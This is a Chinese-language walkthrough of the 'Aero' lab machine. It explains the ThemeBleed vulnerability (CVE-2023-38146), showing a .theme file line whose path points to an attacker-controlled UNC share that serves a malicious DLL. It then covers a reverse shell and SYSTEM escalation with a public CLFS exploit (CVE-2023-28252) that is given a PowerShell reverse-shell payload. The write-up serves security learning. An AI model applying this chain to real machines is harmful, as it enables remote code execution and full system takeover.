 # Aero

这个机器利用了今年比较新的cve，关于windows11的漏洞，类似于lnk、scf，但这个危害更高，通过易受攻击的windows11 利用theme、msstyles来实现RCE.

---

Aero 是一台中等难度的 Windows 机器，最近有两个 CVE：CVE-2023-38146（影响 Windows 11 主题）和 CVE-2023-28252（针对通用日志文件系统 （CLFS）。初始访问是通过使用 ThemeBleed 概念验证构建恶意有效负载来实现的，从而导致反向 shell。站稳脚跟后，在用户的主目录中发现 CVE 披露通知，表示存在 CVE-2023-28252 漏洞。需要修改现有概念证明，以便将权限提升到管理员级别或作为 NT Authority\SYSTEM 执行代码。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/79bc73e9-cde2-9328-0a81-58d50fb12ed7.png)

虽然对于windows靶机来说这个暴露的端口数量有点奇怪，但扫了两次，确定只有80

### 80 - Windows 11 .theme (CVE-2023-38146)

在网站主页，这里提到了windows 11的主题

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/94ef39dd-a973-250a-e0fd-d29c99951d24.png)

下面还有个文件上传，这个是用来上传主题文件的

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/034fcba7-0da2-905b-5caf-82c57e8586da.png)

我们通过谷歌搜索关于windows 11主题相关的漏洞我们能找到一点线索（虽然在靶机介绍中已经告诉了我们)

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/49fbe978-5ae8-57d0-94c8-2cb59b4bc011.png)

当上传theme文件后，它会测试这个文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/9c076e62-010f-0481-266b-4a92716fcf8f.png)

### 分析一下原理

这里研究了一下，中间偷天换日给我一个很不错的感受，其实很简单。

首先.theme文件类似于scf那种的ini文件，而theme需要加载.msstyles文件

	[VisualStyles]
	Path=%SystemRoot%\resources\Themes\Aero\Aero.msstyles

总所周知，我们可以利用windows特色，这里的.msstyles文件很明显，我们能够通过UNC path来访问

	Path=\\10.10.14.18\tb\Aero.msstyles

.msstyles也有版本之分，我们具体关注version 999，看一下uxtheme.dll加载999的msstyles文件会做什么

	if ( return_val < 0 && (_WORD)version == 999 ) // !!! [2] special case for version 999
	  {
		resource_size = 999;
		return_val = ReviseVersionIfNecessary(msstyles_path, 999, (int *)&resource_size); // !!! [3] call to `ReviseVersionIfNecessary`
	...

而函数ReviseVersionIfNecessary对我们而言，会做以下对我们有利的事情：

1. **在.msstyles文件的所在目录**下寻找xxxx_vrf.dll
2. 如果xxxx_vrf.dll文件存在则打开文件验证签名
3. 如果签名有效则关闭该文件，否则直接退出
4. 将xxxx_vrf.dll文件作为DLL加载并调用VerifyThemeVersion函数

看起来确实很安全的样子，**但我相信是得益于UNC path，使它脆弱了**

我们可以看到这个流程下来，xxxx_vrf.dll被加载了两次，如果没有UNC，这一切在windows本地，可能这一切看起来似乎都正常

而我说了是UNC令它发挥了作用，使它脆弱的可利用，这是我自己的理解。

在第三步中，验证完就关闭了文件，到第四步的时候想打开xxxx_vrf.dll的时候，则需要再次通过smb来请求该文件，然而这时候，是不需要再次验证的，而是直接加载的。

所以攻击方法就出来了，等到第三步验证完文件签名后，当易受攻击的windows尝试通过smb请求xxxx_vrf.dll以进行第四步时

在这个时候，当它试图通过smb向我们攻击者请求xxxx_vrf.dll文件时，我们可以控制smb server使其返回一个恶意的dll，由于它不会再进行签名验证，所以会直接加载恶意dll。

[themebleed.py](https://github.com/Jnnshschl/CVE-2023-38146/blob/main/themebleed.py)这个项目利用是themebleed.exe的python版本，我们可以使用themebleed.py在linux上使用x86_64-w64-mingw32-g++对cpp编译成dll并且**对smbserver进行控制，在第四步的时候返回恶意dll文件给受害者**

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/beb1a63c-a81c-e0af-85a6-1843943dbe49.png)

我们通过对themebleed.py源码进行审计就可以很容易就发现这一点，当发确定受害者是第二次请求xxxx_vrf.dll时，则控制smbserver返回恶意dll

现在我们可以开始利用themebleed.py来getshell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/a422a2de-94b7-aa3d-3879-cde7121dcc49.png)

开启nc监听，同时在80端口上传theme文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/dc691ac6-d2c2-f998-7b37-cdb835d6a972.png)

当遇到红色的那行输出时（输出了“evil”字符串是因为我修改的代码），则代表已经在第四步返回了恶意dll

当我们再次查看nc时，我们应该获得了我们想要的

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4f0c9064-5688-5f3d-7b72-a98a40b35095.png)

user flag在老地方

## 本地权限提升

在Documents目录下发现了这个

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/09f2639e-20fc-e8f7-0d01-4b2397fccf8d.png)

很轻松就找到了关于这个cve的[POC](https://github.com/fortra/CVE-2023-28252)

	针对 Windows 11 21H2， clfs.sys 版本 10.0.22000.1574，虽然它也适用于 Windows 10 21H2、Windows 10 22H2、Windows 11 22H2 和 Windows Server 2022。

把项目下载，搞个powershell reverse shell payload，用vs编译项目

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4929fc39-ca2e-25b0-6099-3c8eba3f8f7c.png)

通过http上传到目标

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2caf8847-3708-e2af-025b-ea875bdf09ac.png)

执行exp同时查看nc

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/fde03f7f-1130-46af-9df2-8b0aef08ddd6.png)

root flag还在老地方

